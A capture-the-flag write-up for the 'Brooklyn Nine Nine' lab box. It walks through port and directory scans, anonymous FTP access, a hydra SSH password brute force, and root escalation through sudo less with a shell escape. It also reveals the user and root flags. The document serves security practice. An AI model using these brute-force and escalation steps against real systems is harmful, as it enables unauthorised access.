






# Brooklyn Nine Nine

--------------------------------------------------------------------

**TOOLS USED**: nmap, dirb, hydra

--------------------------------------------------------------------

## GIVEN INFO


**IP Address**: 10.10.10.135

--------------------------------------------------------------------

## PROCEDURE

### 1. RECON

Run port scan
```
nmap -sC -sV 10.10.10.135
```



```
dirb http://10.10.10.135
```



```
ftp anonymous@10.10.10.135
get note_to_jake.txt
```



Jake has a weak password

**USER**: jake

### 2. BRUTE FORCE

Use hydra to brute force shh login
```
hydra -l jake -P /usr/share/wordlists/rockyou.txt.gz ssh://10.10.10.135
```



**PASSWORD**: 987654321

```
ssh jake@10.10.10.135
cd /home/holt
cat user.txt
```



**USER FLAG**: ee11cbb19052e40b07aac0ca060c23ee

### 3. PRIVILEGE ESCALATION

```
sudo -l
```

[3.1](./imgs/3.1.png)

Jake can run /usr/bin/less as root

From https://gtfobins.github.io/gtfobins/less/#sudo
```
sudo less /etc/profile
!/bin/sh
```


**ROOT FLAG**: 63a9f0ea7bb98050796b649e85481845